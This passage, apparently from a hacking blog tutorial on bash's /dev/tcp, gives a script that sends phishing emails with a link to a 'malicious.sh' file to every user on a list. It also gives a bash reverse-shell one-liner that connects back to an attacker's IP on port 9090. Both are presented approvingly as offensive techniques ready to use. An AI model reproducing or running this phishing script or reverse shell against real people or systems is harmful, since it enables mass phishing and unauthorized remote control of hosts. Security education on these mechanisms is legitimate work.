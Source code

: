 Hopefully you can see the scriptability of this. If I wanted to, say, mail bomb an entire organization if I had a list of potential users in hopes that one of them would read the email, click on a malicious link, I could script up something like this.

Let's say I had a list of users in a file named `users.txt`:

```txt
bob
mary
sue
joe
greg
laura
rich
```

I could use that list with this script:

```bash
#!/bin/bash

exec 3<>/dev/tcp/127.0.0.1/25
while read -r user;
do
    echo "EHLO agrohacksstuff.io" >&3
    sleep 0.2
    echo "MAIL FROM: me@example.com" >&3
    sleep 0.2
    echo "RCPT TO: $user@target.com" >&3
    sleep 0.2
    echo "DATA" >&3
    sleep 0.2
    echo "Please click <a href='http://10.20.30.40/malicious.sh'>here</a>" >&3
    sleep 0.2
    echo "." >&3
done < ./users.txt
```

Sweet! Now is that the best way to do this? Absolutely not. First of all, in my testing this was very spotty as sometimes the MTA I used (in this case, postfix) would trip up over certain lines and throw an error. I think it was because it just send a ton of data in a huge block without waiting on anything, hence all the sleep statements. A better way of doing it is using an actual mail client to send these, but a more fun way of doing it is using pexpect from python! But that's for another article.

## Reverse Shells

These have been done over and over again, so I won't offer much more here. But my favorite reverse shell is using bash:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/your.ip.here/9090 0>&1'
```

If you can get a remote host to run that, it should connect back to you on port 9090. I can do my best to explain it a bit though.
